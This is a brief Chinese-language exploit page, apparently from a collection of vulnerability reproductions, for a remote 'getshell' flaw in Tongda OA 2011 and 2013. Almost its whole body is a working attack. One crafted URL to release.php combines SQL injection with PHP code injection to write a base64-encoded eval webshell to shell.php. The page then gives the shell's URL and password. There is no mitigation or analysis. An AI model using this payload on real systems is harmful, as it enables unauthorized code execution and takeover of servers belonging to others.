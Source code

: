 ```yaml
---
title: "通达oa 2011-2013 通杀GETSHELL"
id: zhfly3331
---
```


# 通达oa 2011-2013 通杀GETSHELL

## 一、漏洞简介

## 二、漏洞影响

2011、2013版本

## 三、复现过程

第一步:

```
http://0-sec.org/general/crm/studio/modules/EntityRelease/release.php?entity_name=1%d5'%20or%20sys_function.FUNC_ID=1%23%20${%20fputs(fopen(base64_decode(c2hlbGwucGhw),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz5vaw))} 
```

第二步:

```
http://0-sec.org/general/email/index.php 
```

SHELL:

```
http://0-sec.org/general/email/shell.php 密码C 
```